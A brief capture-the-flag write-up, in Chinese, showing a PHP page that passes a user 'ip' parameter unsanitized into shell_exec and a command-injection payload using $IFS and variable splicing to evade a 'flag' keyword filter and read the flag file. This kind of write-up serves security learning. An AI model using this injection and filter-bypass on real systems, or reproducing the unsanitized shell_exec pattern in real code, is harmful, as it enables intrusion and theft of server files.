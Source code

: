 ```
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

## 绕过flag过滤

使用参数

a=g;

fla$a.php

```
/?ip=127.0.0.1;a=g;cat$IFS$9fla$a.php
```



右键查看源代码

```
/?ip=
<pre>PING 127.0.0.1 (127.0.0.1): 56 data bytes
<?php
$flag = "flag{77249ee7-7da8-4637-8cc0-c27cfb95a139}";
?>
```

## flag

```
flag{77249ee7-7da8-4637-8cc0-c27cfb95a139}
```

